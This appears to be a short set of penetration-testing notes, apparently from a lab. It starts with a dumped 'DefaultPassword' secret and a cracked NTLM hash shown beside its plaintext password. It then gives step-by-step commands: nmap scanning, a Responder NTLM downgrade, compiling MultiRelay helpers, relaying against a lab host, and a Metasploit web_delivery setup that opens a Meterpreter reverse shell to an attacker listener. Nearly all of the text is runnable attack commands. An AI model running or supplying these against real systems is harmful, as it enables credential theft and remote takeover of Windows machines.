 ```


Secret  : DefaultPassword
cur/text: P@ssw0rd123
old/text: a2@3L$-CHILDL0c@l

```

cracked:

```
ELS_admin
89551acff8895768e489bb3054af94fd:P@ssw0rd123
```


- scan the machine

```
nmap -sV -T4 -p- <ip>
```

- discover the SO

```
nmap -A -O <ip>
```

- NTLM downgrade attack with Responder

```
	responder -I eth1 --lm
```

> The hash is stored in the /usr/share/responder/logs folder.

- Compile de Runas and Syssvc to x86

```
i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv

i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode
```


- multirelay

```
	./MultiRelay.py -t 172.16.5.10 -u ALL
```

> responder again to get a shell
	responder -I eth1 --lm

- Get a meterpreter shell

```
msfconsole -q
search web_delivery

set TARGET 3 //Regsvr32
set LHOST 172.16.5.101
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
